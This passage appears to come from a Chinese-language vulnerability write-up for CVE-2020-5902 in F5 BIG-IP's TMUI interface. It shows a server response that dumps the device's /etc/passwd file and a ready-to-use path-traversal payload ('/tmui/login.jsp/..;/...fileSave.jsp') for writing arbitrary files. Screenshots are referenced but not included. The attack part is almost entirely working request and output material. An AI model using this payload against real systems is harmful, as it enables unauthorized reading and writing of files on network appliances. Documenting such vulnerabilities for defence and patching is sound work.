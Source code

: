 > Response

```http
HTTP/1.1 200 OK
Date: Fri, 10 Jul 2020 14:42:03 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Strict-Transport-Security: max-age=16070400; includeSubDomains
Set-Cookie: JSESSIONID=08827183860922C1DCF8A89BB46E7839; Path=/tmui; Secure; HttpOnly
Content-Type: text/html;charset=ISO-8859-1
Vary: Accept-Encoding
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Content-Security-Policy: default-src 'self'  'unsafe-inline' 'unsafe-eval' data: blob:; img-src 'self' data:  http://127.4.1.1 http://127.4.2.1
Content-Length: 1916
Connection: close


{"output":"root:x:0:0:root:\/root:\/bin\/bash\nbin:x:1:1:bin:\/bin:\/sbin\/nologin\ndaemon:x:2:2:daemon:\/sbin:\/sbin\/nologin\nadm:x:3:4:adm:\/var\/adm:\/sbin\/nologin\nlp:x:4:7:lp:\/var\/spool\/lpd:\/sbin\/nologin\nmail:x:8:12:mail:\/var\/spool\/mail:\/sbin\/nologin\noperator:x:11:0:operator:\/root:\/sbin\/nologin\nnobody:x:99:99:Nobody:\/:\/sbin\/nologin\ntmshnobody:x:32765:32765:tmshnobody:\/:\/sbin\/nologin\nadmin:x:0:500:Admin User:\/home\/admin:\/bin\/false\nsupport:x:0:0:support:\/root:\/bin\/bash\nf5emsvr:x:975:975:F5 EM Service Account:\/root:\/bin\/false\nvcsa:x:69:69:virtual console memory owner:\/dev:\/sbin\/nologin\ndbus:x:81:81:System message bus:\/:\/sbin\/nologin\nsystemd-bus-proxy:x:974:998:systemd Bus Proxy:\/:\/sbin\/nologin\nsystemd-network:x:192:192:systemd Network Management:\/:\/sbin\/nologin\npolkitd:x:27:27:User for polkitd:\/:\/sbin\/nologin\nnslcd:x:65:55:LDAP Client User:\/:\/sbin\/nologin\ntss:x:59:59:Account used by the trousers package to sandbox the tcsd daemon:\/dev\/null:\/sbin\/nologin\npostgres:x:26:26:PostgreSQL Server:\/var\/local\/pgsql\/data:\/sbin\/nologin\ntomcat:x:91:91:Apache Tomcat:\/usr\/share\/tomcat:\/sbin\/nologin\nhsqldb:x:96:96::\/var\/lib\/hsqldb:\/sbin\/nologin\nsshd:x:74:74:Privilege-separated SSH:\/var\/empty\/sshd:\/sbin\/nologin\nrpc:x:32:32:Rpcbind Daemon:\/var\/lib\/rpcbind:\/sbin\/nologin\nntp:x:38:38::\/etc\/ntp:\/sbin\/nologin\nf5_remoteuser:x:499:499:f5 remote user account:\/home\/f5_remoteuser:\/sbin\/nologin\ntcpdump:x:72:72::\/:\/sbin\/nologin\noprofile:x:16:16:Special user account to be used by OProfile:\/:\/sbin\/nologin\nsdm:x:191:996:sdmuser:\/var\/sdm:\/bin\/false\nnamed:x:25:25:Named:\/var\/named:\/bin\/false\napache:x:48:48:Apache:\/usr\/local\/www:\/sbin\/nologin\nsyscheck:x:199:10::\/:\/sbin\/nologin\nmysql:x:98:98:MySQL server:\/var\/lib\/mysql:\/sbin\/nologin\nrestnoded:x:198:198::\/:\/sbin\/nologin\n"}
```

漏洞截图如下

![10](10.png)

![11](11.png)

### 文件上传

> Payload

```http
/tmui/login.jsp/..;/tmui/locallb/workspace/fileSave.jsp
POST: fileName=/tmp/1.txt&content=CVE-2020-5902
```
